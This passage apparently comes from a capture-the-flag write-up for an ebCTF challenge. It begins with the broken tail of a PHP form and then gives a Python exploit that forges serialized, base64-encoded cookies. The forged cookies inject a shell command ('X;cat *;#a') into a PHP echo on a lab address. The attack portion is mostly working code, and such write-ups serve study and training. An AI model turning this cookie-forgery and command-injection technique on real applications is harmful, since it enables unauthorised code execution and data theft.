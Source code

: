 \n";
 echo "<input type="\&quot;text\&quot;" name="\&quot;name\&quot;" />\n";
 echo "<input type="\&quot;submit\&quot;" name="\&quot;submit\&quot;" value="\&quot;Submit\&quot;" />\n";
 echo "</form>
<pre>
\n";
}
?>
{%  endhighlight  %}

 * Exploit:

{%  highlight  python %}
#!/usr/bin/python
import requests
import sys
import urllib
from base64 import b64decode as dec
from base64 import b64encode as enc
 
url = 'http://192.168.184.133/ebctf/mine.php'
 
def Test(x):
    t = "echo 'Hello %s!'" % x
    s = 'a:2:{s:4:"name";s:%s:"%s";s:8:"greeting";s:%s:"%s";}%s' % (len(x),x,len(t),t, 'X'*40)
    for i in xrange(0,len(s),16):
        print s[i:i+16]
    print '\n'
 
def Pwn(s):
    global url
    s = urllib.quote_plus(enc(s))
    req = requests.get(url, cookies = {'settings' : s}).content
 #   if req.find('works') != -1:
    print req
  #  else:
   #     print '[-] FAIL'
 
def GetCookie(name):
    global url
    d = {
        'name':name,
        'submit':'Submit'
    }
    h = requests.post(url, data = d, headers = {'Content-Type' : 'application/x-www-form-urlencoded'}).headers
    if h.has_key('set-cookie'):
        h = dec(urllib.unquote_plus(h['set-cookie'][9:]))
        #h = urllib.unquote_plus(h['set-cookie'][9:])
        #print h
        return h
    else:
        print '[-] ERROR'
        sys.exit(0)
 
#a:2:{s:4:"name";s:10:"X;cat *;#a";s:8:"greeting";s:24:"echo 'Hello X;cat *;#a!'";}
#a:2:{s:4:"name";
#s:10:"X;cat *;#a
#";s:8:"greeting"
#;s:24:"echo 'Hel
#lo X;cat *;#a!'"